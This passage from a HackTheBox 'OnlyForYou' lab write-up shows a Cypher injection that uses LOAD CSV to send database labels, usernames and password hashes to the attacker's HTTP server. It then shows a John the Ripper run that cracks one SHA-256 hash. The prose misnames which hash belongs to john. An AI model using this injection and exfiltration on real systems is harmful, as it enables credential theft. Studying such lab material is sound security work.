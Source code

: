 And we obtain the following:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.210 - - [18/Jul/2023 01:00:24] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:00:24] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:00:25] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:00:25] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:00:25] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:00:25] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:00:25] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:00:26] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:00:26] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:00:26] "GET /?label=employee HTTP/1.1" 200 -
```

We have two entities: `user` and `employee`. Let's read the content from the user using the following query: `' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.14:8000/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //`:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ python3 -m http.server
...
10.10.11.210 - - [18/Jul/2023 01:03:57] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:03:57] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:03:57] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:03:57] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [18/Jul/2023 01:03:57] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
```

We retrieve the hash of the `john` user, which is `8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918`. Let's proceed to crack it using `john`:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ cat hash
a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ john --wordlist=~/Desktop/rockyou.txt hash --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 SSE2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ThisIs4You       (?)
1g 0:00:00:00 DONE (2023-07-18 01:06) 1.176g/s 12413Kp/s 12413Kc/s 12413KC/s VAGD/021091..TTTTTTTTTTTTTTTT
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
```
